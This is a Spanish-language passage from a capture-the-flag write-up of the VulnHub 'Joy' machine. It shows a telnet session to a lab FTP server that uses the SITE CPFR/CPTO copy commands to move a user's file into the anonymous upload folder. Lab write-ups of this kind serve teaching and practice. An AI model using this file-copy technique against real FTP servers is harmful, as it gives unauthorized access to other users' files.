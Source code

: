 Listamos el contenido del archivo `directory`, el cual tiene más información.

![versioncontrol](/assets/img/commons/vulnhub/joy/versioncontrol.png){: .center-image }

Para descargar el archivo `version_control` debemos ingresar por `telnet` o `netcat` y copiar dicho archivo que se encuentra en el escritorio de `Patrick`en la carpeta `upload`{: .filepath} del usuario `ftp`.

```bash
❯ telnet 10.11.12.24 21
Trying 10.11.12.24...
Connected to 10.11.12.24.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server
help
214-The following commands are recognized (* =>'s unimplemented):
 CWD     XCWD    CDUP    XCUP    SMNT*   QUIT    PORT    PASV
 EPRT    EPSV    ALLO*   RNFR    RNTO    DELE    MDTM    RMD
 XRMD    MKD     XMKD    PWD     XPWD    SIZE    SYST    HELP
 NOOP    FEAT    OPTS    AUTH*   CCC*    CONF*   ENC*    MIC*
 PBSZ*   PROT*   TYPE    STRU    MODE    RETR    STOR    STOU
 APPE    REST    ABOR    USER    PASS    ACCT*   REIN*   LIST
 NLST    STAT    SITE    MLSD    MLST
214 Direct comments to root@JOY
site help
214-The following SITE commands are recognized (* =>'s unimplemented)
 CPFR <sp> pathname
 CPTO <sp> pathname
 HELP
 CHGRP
 CHMOD
214 Direct comments to root@JOY
site cpfr /home/patrick/version_control
350 File or directory exists, ready for destination name
site cpto /home/ftp/upload/version_control
250 Copy successful
```
